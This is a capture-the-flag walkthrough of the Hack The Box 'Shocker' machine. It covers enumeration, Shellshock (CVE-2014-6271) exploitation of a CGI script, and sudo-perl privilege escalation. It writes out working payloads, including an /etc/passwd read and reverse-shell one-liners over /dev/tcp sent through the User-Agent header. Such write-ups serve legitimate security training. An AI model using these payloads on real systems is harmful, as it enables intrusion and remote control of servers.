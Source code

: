 # Shocker

**OS:** Linux

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/shocker)  [2](https://app.hackthebox.com/machines/Shocker)

**Machine ip:** 10.10.10.56

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd5a38d8-aeda-4f02-891d-acb679295a3f)


# Sections
+ [Enumeration](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/03_Shocker.md#enumeration)
+ [Gaining Access](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/03_Shocker.md#gaining-access)
+ [Privilege Escalation](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/03_Shocker.md#privilege-escalation)
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/03_Shocker.md#links)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.56 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c189963f-1f1f-47e3-8143-3c3590c67d76)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6d921d69-f5a3-4b01-8abf-b2705292468b)

+ Navigate to `http://10.10.10.56/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53721866-1078-4c64-a195-7717114fc1a3)

+ Fuzzing:
```
feroxbuster -u http://10.10.10.56 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a9ac037-a36f-41a4-9778-b82bdc5dbbc4)

+ Check `/cgi-bin/user.sh`: `curl http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/47df5820-0a25-4802-a8fb-a4a987b0ad8e)

+ [Shellshock vulnerability](https://github.com/opsxcq/exploit-CVE-2014-6271): [CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)
+ `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bc9402cf-aee0-410f-b78c-9ac7069a0151)

## Gaining Access

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/15545c15-606a-4e45-8555-0d886bd63fc2)

+ Make a request `http://10.10.10.56/cgi-bin/user.sh` and capture the request on burp.
+ Send to repeater, and then trigger.
+ Use `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` payload on the user-agent.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d99b17d-fdb0-422b-bbf9-94be92bbb3b9)

Get a revershell: 
+ `nc -lnvp 4444`
+ `() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/33347aa2-8d52-4ecc-bdd1-eefabc6550f0)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a66c0774-5e34-43b9-a1e5-522fc5dd4399)

**Alternatively**, use `curl`: 
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh`
+ `nc -lnvp 5555`
```
curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.5/5555 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/998447b4-78ef-40c0-929c-17cfbd01c157)


## Privilege Escalation

+ `sudo -l -l`
+ Check [gtfobins](https://gtfobins.github.io/) for [perl](https://gtfobins.github.io/gtfobins/perl/#sudo)
+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c4f85588-6979-435d-b7ef-466ca66b7e4d)


# Links

# References & Alternatives
+ https://vvmlist.github.io/#shock
+ https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/shocker-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-shocker/
+ https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b
+ https://corruptedprotocol.medium.com/shocker-hackthebox-htb-2cdac3cf3562
+ https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-öner
+ https://medium.com/@orhan_yildirim/shocker-hackthebox-write-up-538631df688f
+ https://brcyrr.medium.com/hack-the-box-shocker-602ea7452797
+ https://medium.com/@ismailplt3458/hack-the-box-shocker-machine-oscp-like-solution-aafc898adc65
